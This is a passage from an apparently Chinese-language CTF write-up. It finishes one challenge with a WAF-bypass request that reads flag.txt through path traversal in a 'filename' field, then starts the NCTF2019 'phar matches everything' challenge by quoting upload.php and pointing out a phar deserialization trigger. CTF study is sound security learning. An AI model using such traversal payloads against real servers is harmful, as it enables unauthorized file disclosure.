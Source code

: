 所以这里我们可以提交一个GET请求（不带有get查询参数），但是依然含有body部分 并且把`<x`加到body中，就会使第一次的判断中进入异常部分->pass，不修改`isBad`的bool值，进入第二次判断后直接拼接filename，读出flag；payload

```
GET /
POST: filename=../../../flag.txt&amiz=<x
```

参考：[WAF Bypass Techniques - Using HTTP Standard and Web Servers’ Behaviour](https://www.slideshare.net/SoroushDalili/waf-bypass-techniques-using-http-standard-and-web-servers-behaviour)  |  [wp](https://ctftime.org/writeup/16802)

flag{e2c62455-e081-4782-8320-7c76ef570244}

{{% /spoiler %}}

{{% spoiler "*[NCTF2019]phar matches everything" %}}

给出了源码，直接github.dev看了 [这里是url](https://github.dev/swfangzhang/My-2019NCTF/tree/master/phar%20matches%20everything)

![image-20220119005449330](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220119005449330.png)

两个文件夹分别是两个docker（用dockerfile编排到一起了 ip不同）

![image-20220119005701913](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220119005701913.png)

osrc的有80端口暴露在外面，结合页面的交互先看osrc中的catchmine.php和upload.php

upload.php，可以上传文件

```php
<?php


$target_dir = "uploads/";
$uploadOk = 1;

$imageFileType=substr($_FILES["fileToUpload"]["name"],strrpos($_FILES["fileToUpload"]["name"],'.')+1,strlen($_FILES["fileToUpload"]["name"]));

$file_name = md5(time());
$file_name =substr($file_name, 0, 10).".".$imageFileType;

$target_file=$target_dir.$file_name;

    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]); // getimagesize检测文件类型 可触发反序列化
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
        $uploadOk = 1;
    } else {
        echo "File is not an image.";
        $uploadOk = 0;
    }


if (file_exists($target_file)) {    // 检测同名 当然因为md5的原因也不太能同名
    echo "Sorry, file already exists.";
    $uploadOk = 0;
}
if ($_FILES["fileToUpload"]["size"] > 500000) { // 限制大小
    echo "Sorry, your file is too large.";
    $uploadOk = 0;
}
if($imageFileType !== "jpg" && $imageFileType !== "png" && $imageFileType !== "gif" && $imageFileType !== "jpeg"  ) {   // 后缀白名单
    echo "Sorry, only jpg,png,gif,jpeg are allowed.";
    $uploadOk = 0;
```